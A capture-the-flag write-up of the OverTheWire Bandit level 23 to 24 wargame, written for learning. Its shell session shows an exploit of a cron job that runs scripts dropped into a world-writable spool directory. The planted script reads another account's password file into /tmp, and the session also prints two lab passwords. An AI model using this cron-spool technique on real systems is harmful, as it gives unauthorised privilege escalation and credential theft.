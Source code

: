 ```yaml
---
title: OverTheWire Bandit Level 23 - 24
date: 2022-07-29T06:00:00
tags: [overthewire, bandit, linux, shell]
---
```

# Prompt
> A program is running automatically at regular intervals from `cron`, the time-based job scheduler. Look in `/etc/cron.d/` for the configuration and see what command is being executed.

# Solution
```sh
$ ssh bandit23@bandit.labs.overthewire.org -p 2220
bandit23@bandit.labs.overthewire.org password: jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root cronjob_bandit17_root cronjob_bandit22 cronjob_bandit23 cronjob_bandit24 cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*; do
	if [ "$i" != "." -a "$i" != ".." ]; then
		echo "Handling $i"
		owner="$(stat --format "%U" ./$i)"
		if [ "${owner}" = "bandit23" ]; then
			timeout -s 9 60 ./$i
		fi
		rm -f ./$i
	fi
done
bandit23@bandit:~$ ls -l /var/spool/
drwxrwx-wx 25 root bandit24 659456 Jul 29 04:32 bandit24
bandit23@bandit:~$ mkdir /tmp/bandit23
bandit23@bandit:~$ chmod 777 /tmp/bandit23
bandit23@bandit:~$ touch /tmp/bandit23/bandit24.txt
bandit23@bandit:~$ chmod a+rwx /tmp/bandit23/bandit24.txt
bandit23@bandit:~$ printf '#!/bin/bash\ncat /etc/bandit_pass/bandit24 > /tmp/bandit23/bandit24.txt\n' > /tmp/bandit23/bandit23.sh
bandit23@bandit:~$ chmod +rx /tmp/bandit23/bandit23.sh
bandit23@bandit:~$ cp /tmp/bandit23/bandit23.sh /var/spool/bandit24
# wait for a minute
bandit23@bandit:~$ cat /tmp/bandit23/bandit24.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# References
* MayADevBe. (2022, May 24). OverTheWire Bandit Level 23 - 24. MayADevBe. <https://mayadevbe.me/posts/overthewire/bandit/level24/>
* <https://crontab.guru/#*_*_*_*_*>